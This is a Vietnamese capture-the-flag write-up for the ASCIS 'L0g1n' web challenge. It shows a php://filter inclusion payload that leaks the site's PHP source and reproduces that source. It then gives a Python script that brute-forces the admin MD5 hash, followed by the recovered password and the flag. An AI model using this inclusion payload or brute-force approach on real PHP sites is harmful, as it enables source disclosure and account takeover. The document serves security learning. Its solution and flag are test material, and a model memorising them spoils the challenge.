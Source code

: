 #L0g1n - ASCIS

link bài: http://27.32.87.34.bc.googleusercontent.com

Gợi ý: Không có

Kiến thức:
- Path Traversal
- PHP Wrappers and Protocols
- Hash md5

Khi vào link này thì nó redirect sang trang này. Hừmmm

http://27.32.87.34.bc.googleusercontent.com/?page=home

![](./img/home.png?raw=true)
Đầu tiên mình nghĩ tới việc dùng Path traversal.

![](./img/url_traversal.png?raw=true)

No thing is here.
Thử một vài cái nữa vẫn không có gì xảy ra.

Thôi thì thử dùng PHP Wrappers and Protocols
cho tham số page=php://filter/read/convert.base64-encode/resource=home

![](./img/base64_home.png?raw=true)

Ái chà chà. Tao có được mã base64 của trang home.php.

Giờ dùng base64 decode thôi.
![](./img/base64_home_terminal.png?raw=true)

Lúc vào web để xem thì ta biết được nó có 3 trang: home, login, register với trang index nữa.
Giờ tao lấy hết source code của nó.

Ta chú ý các đoạn source sau
-Trong file index:
'''php
    if(isset($_GET["page"]) && !empty($_GET["page"]))
  {
    if( strpos(strtolower($_GET["page"]), "secret") !== false)
      {
        die("<font color='red' size='5'>(￣^￣)ゞ Hi Comrade, Something Wrong!</font>");
      }
    include($_GET["page"].".php");
  }
  else
  {
    header("Location: ?page=home");
  }
'''
- Trong file home:
'''php
<?php 
			include('secret.php');
			echo '<h3>';
			if(isset($_SESSION['user']) && $_SESSION['user']==="admin")
			{
				print("Oops, Admin? Here your flag...<br><font color='red'>( ノ-_-)ノ ( ノ-_-)ノ</font><font color='white'> $flag </font><font color='red'>ヾ(^-^ヽ)ヾ(^-^ヽ)</font>");
			}
			else
			{
				print("Hello, it looks like you haven't logged in yet, please <a href='?page=login'>L0g1n</a><br><br><font color='green'>!!(ﾒ￣ ￣)_θ☆°0°)/</font> <font color='blue'>(`⌒*)O-(`⌒´Q)</font> <font color='red'>(¬_¬'')ԅ(￣ε￣ԅ)</font>");
			}
			echo '</h3>';
		?>

'''

-Trong file login.php

'''php
if(isset($_POST["username"]) && !empty($_POST["username"]) && isset($_POST["password"]) && !empty($_POST["password"]) && isset($_POST["token"]))
{
	if($_SESSION["form_token"]===$_POST["token"])
	{
  		unset($_SESSION['form_token']);
  		$_SESSION["form_token"] = md5(uniqid(rand(), true));
  		if ($_POST["username"] === "admin" && md5($_POST["password"]) === "c3cef6586e2e5705d9ed18ba8f4346c0")
        {
  			$_SESSION['user'] = "admin";
  			print("Ok... Have a good day!");
  		}
  		else if ($_POST["username"] === "admin") 
  		{
  			print("Wrong Password, <font color='red'>(╯°-°)╯</font><font color='brown'>彡┻━┻</font>");
  		}
  		else
  		{
  			print("Wrong Username/Password<br><font color='blue'>‿︵‿︵‿︵‿</font><font color='red'>ヽ(°□° )ノ</font><font color='blue'>︵‿︵‿︵‿︵</font>");
  		}
	}
}
else 
{
	print("Hello, Login here <font color='green'>＼(＾▽＾)／</font>");
}

'''

Và cuối cùng là file register.php

'''php
<?php
if (!defined('check_access')) 
{
        die("<font color='red' size='5'>(￣^￣)ゞ Hi Comrade, Something Wrong!</font>");
}
?>
<html>
	<title> L0g1n </title>
	<body>
		<h1><font color="purple">🔗 Register (Under maintenance)</font></h1>

<?php

echo '<h3>';

if(isset($_POST["username"]) && !empty($_POST["username"]) && isset($_POST["password"]) && !empty($_POST["password"]))
{
	if($_POST["username"] === "admin") 
	{
		print("<font color='red'>(っ•﹏•)っ</font> User already exists ");
	}
	else
	{
		print("Our register service is under maintenance so please come back later.<br><font color='blue'>ヾ(⌐■_■)ノ♪</font>");
	}
}

echo '</h3>';

?>
<form action="?page=register" method="POST">
		<br><strong>USERNAME</strong><br> <input disabled type="text" title="Something very wrong!!!" pattern="[a-z0-9]{4,10}" name="username"/><br>
		<strong>PASSWORD</strong><br> <input disabled type="password" title="Something very wrong!!!" pattern="[a-h0-9]{4,7}" name="password" /><br>
		<strong>ADDRESS</strong><br> <input disabled type="address" name="address"> (Optional)<br><br>
		<button type="submit" class="button1">Register</button>
		</form>
	</body>
</html>

'''
Đầu tiên là file index.php
![](./img/index_php.png?raw=true)
Có lẽ chỉ cần bypass qua được cái strpos và strtolower là có thể lấy được source của file secret.php (nơi chứa flag)
Nhưng rất tiếc, sau một đống thời gian tìm và thử => No hope :(

Trong file home.php
![](./img/home_php.png?raw=true)
Trong này chả có gì nhiều. Ta chỉ biết được là đăng nhập bằng admin được thì có flag thôi.

Tiếp theo là trong file register.php
![](./img/register_php.png?raw=true)
Trong này ta chỉ nên chú ý một đoạn là đoạn nhập form
Username và password được pattern trong khoảng từ a-h và từ 0-9 với độ dài trong khoảng 4-7.
Không biết ban tổ chức có lừa mình không. Nhưng mong là password của admin cũng thỏa mãn điều kiện này để bruce force.
  
Tiếp theo là trong file login.php
![](./img/login_php.png?raw=true)
Úi chà, có được password sau khi md5 là 'c3cef6586e2e5705d9ed18ba8f4346c0' luôn. Giờ decrypto cái password chắc ra được mật khẩu.
Mình code một đoạn để "chó ngáp phải ruồi" thôi. Chạy mà lòng mong BTC không lừa mình.

'''python
import hashlib 
import secrets
res = "c3cef6586e2e5705d9ed18ba8f4346c0"
while True:
    password = ''.join(secrets.choice('abcdefgh0123456789') for i in range(7))
    result = hashlib.md5(bytes(password,encoding='utf-8'))
    if(res == result.hexdigest()):
        print(password + ": True")
        break
    else:
        print(password + ": False")
'''

Chạy một hồi thì ra được password là 143b4b3



Vào trang login submit với username = admin và password = 143b4b3 thôiiii.
![](./img/logged_in.png?raw=true)

Vào lại home:

![](./img/flag.png?raw=true)

Flag:  ASCIS{__Hav3_Y0u_Heard_Ab0ut__HTML_PATT3rN?_} 

Khá toang. Anyway, THIS IS THE ENDGAME!!!!
